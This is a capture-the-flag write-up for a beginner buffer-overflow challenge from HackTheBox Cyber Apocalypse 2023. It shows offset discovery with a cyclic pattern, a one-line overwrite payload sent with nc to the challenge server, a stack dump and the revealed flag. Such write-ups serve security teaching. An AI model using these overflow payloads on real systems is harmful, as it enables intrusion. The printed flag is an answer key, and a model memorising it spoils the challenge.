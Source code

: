 ```yaml
---
name: Getting Started (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Getting Started (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Getting Started

## Description

> Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

## Solution

Generate a cyclic pattern and send it to the program as input and check which bytes make it into the RIP, then unhex and find the offset.

{% code overflow="wrap" %}
```bash
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

unhex 6161616c6161616b

cyclic -l laaa
44
```
{% endcode %}

Create a payload and send it to the server.

{% code overflow="wrap" %}
```bash
python2 -c 'print "A" * 44 + "\xef\xbe\xad\xde"' > payload

nc 209.97.129.76 30115 < payload
```
{% endcode %}

Receive flag 🙂

{% code overflow="wrap" %}
```bash
      [Addr]       |      [Value]
-------------------+-------------------
0x00007ffd6d3fc690 | 0x4141414141414141 <- Start of buffer
0x00007ffd6d3fc698 | 0x4141414141414141
0x00007ffd6d3fc6a0 | 0x4141414141414141
0x00007ffd6d3fc6a8 | 0x4141414141414141
0x00007ffd6d3fc6b0 | 0x4141414141414141 <- Dummy value for alignment
0x00007ffd6d3fc6b8 | 0xdeadbeef41414141 <- Target to change
0x00007ffd6d3fc6c0 | 0x0000557386505800 <- Saved rbp
0x00007ffd6d3fc6c8 | 0x00007f02fd685c87 <- Saved return address
0x00007ffd6d3fc6d0 | 0x0000000000000001
0x00007ffd6d3fc6d8 | 0x00007ffd6d3fc7a8

HTB{b0f_s33m5_3z_r1ght?}
```
{% endcode %}
